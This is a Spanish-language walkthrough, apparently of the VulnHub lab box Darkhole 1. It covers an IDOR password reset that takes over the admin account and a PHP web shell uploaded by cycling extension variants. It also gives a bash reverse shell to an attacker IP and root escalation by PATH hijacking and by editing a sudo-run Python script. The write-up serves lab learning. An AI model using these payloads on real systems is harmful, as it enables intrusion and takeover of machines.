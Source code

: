 ```yaml
---
layout: single
title: Darkhole 1 - VulnHub
excerpt: " Difficulty: Easy
It's a box for beginners, but not easy, Good Luck
Hint: Don't waste your time For Brute-Force "
date: 2023-01-25
classes: wide
header:
  teaser: /blog/assets/images/vh-writeup-darkhole1/darkhole.png
  teaser_home_page: true
  icon: /blog/assets/images/vulnhub.webp
categories:
  - vulnhub
tags:
  - burpsuite
  - php
  - rce
  - python
  - hijacking
---
```


Difficulty: Easy
It's a box for beginners, but not easy, Good Luck
Hint: Don't waste your time For Brute-Force

# Summary
- IP: 192.168.0.109
- Ports: 22,80
- OS: Linux (Ubuntu Focal)
- Services & Applications:
	-  22 -> OpenSSH 8.2p1 Ubuntu 4ubuntu0.2
	-  80 -> Apache httpd 2.4.41

# Recon

- Escaneo básico de puertos:

```bash
$nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 192.168.0.109 -oG allPorts
```


- Escaneo profundo de puertos encontrados:

```bash
$nmap -p22,80 -sCV 192.168.0.109 -oN targeted
```



# Análisis de página web:

- Entramos a la web y encontramos un apartado de login, intentamos bypassear con SQLI pero no funciona.

- Nos registramos con datos aleatorios, y accedemos como el usuario que creamos.

- Vemos un apartado de "Cambiar contraseña", lo hacemos interceptando la petición con burpsuite para su posterior análisis.

- En la petición podemos ver la siguiente linea:

```
password=hola123&id=2
```

- Lo que quiere decir que el momento de cambiar la contraseña lo hace haciendo referencia al "id" del usuario al que se le asignará la nueva, intentamos manipular la petición apuntando al "id=1" suponiendo que el usuario con "id=1" es "admin":

password=hola123&id=1

- Ahora en el login intentamos acceder como "admin" con la nueva contraseña creada y efectivamente funciona.

- Vemos un apartado de subida de archivos, en el que intentamos subir un archivo de prueba para comprobar que podemos acceder a él; obtenemos el siguiente directorio:

```
http://192.168.0.109/upload/prueba.txt
```


# RCE (subida de archivo PHP malicioso):

- Con el "Wappalizer" podemos evidenciar que la página utiliza lenguaje de programación "PHP", por lo que intentamos subir un archivo PHP, pero nos dice que no es permitida la extensión .php, así que intentamos con todas las demás alternativas de .php con bupsuite.

-  Creamos el archivo php malicioso.

```php
<?php echo passthru($_GET["cmd"]); ?>
```

- Lo subimos e interceptamos la petición con Burpsuite.

- Mandamos la petición al "Intruder"

- Hacemos un ataque de tipo "Sniper", hacemos "clear" y seleccionamos la extensión ".php" y hacemos click en "add"

- En la pestaña "Payloads" en "payloads options" añadimos todas las extensiones posibles de php.

```
.php
.php3
.php4
.php5
.phtml
.phar
.phtm
```

- En la pestaña "options" en "Grep extract" hacemo "fetch response" y seleccionamos el mensaje de error que nos tira al intentar subir el archivo .php

- Iniciamos el ataque y vemos que sí se subieron algunas alternativas de php.

- Accedemos al archivo .phtml y comprobamos el RCE.

```
http://192.168.0.109/upload/cmd.phtml
```

- Entablamos una reverse shell básica y accedemos como "www-data".

```
http://192.168.0.109/upload/cmd.phtml?cmd=bash -c "bash -i >%26 /dev/tcp/192.168.0.108/443 0>%261"
```

# ESCALANDO PRIVILEGIOS:

- Vemos un binario "toto" el cual tiene permisos SUID, lo ejecutamos y vemos que nos despliega lo que haría el comando "id"

- Intentamos hacer un PATH HIJACKING, creando un archivo "id":

```bash
touch /tmp/id
chmod +x /tmp/id
nano /tmp/id
```

```
/bin/bash
```

```bash
export PATH=/tmp:$PATH
```

- Ahora ejecutamos el binario "toto"

```bash
./toto
```

- Pivotamos al usuario "john", abrimos el archivo "password" y encontramos una credencial, vemos permisos de sudoers usando la contraseña encontrada y nos damos cuenta que podemos ejecutar lo siguiente como "root" sin contraseña:

 ```
 (root) /usr/bin/python3 /home/john/file.py
 ```

- Como tenemos permisos de escritura en dicho archivo, lo modificamos de manera que nos despliegue una bash, la cual se hará como root ya que se está ejecutando el archivo como root.

```bash
nano file.py
```

```python
import os
os.execl("/bin/sh", "sh", "-p")
```

- Obtenemos una bash como ROOT y podemos ver la flag.

También podíamos modificar el archivo de python insertando código de manera que se otorgue permisos SUID a la bash:

```python
import os
os.system("chmod u+s /bin/bash")
```
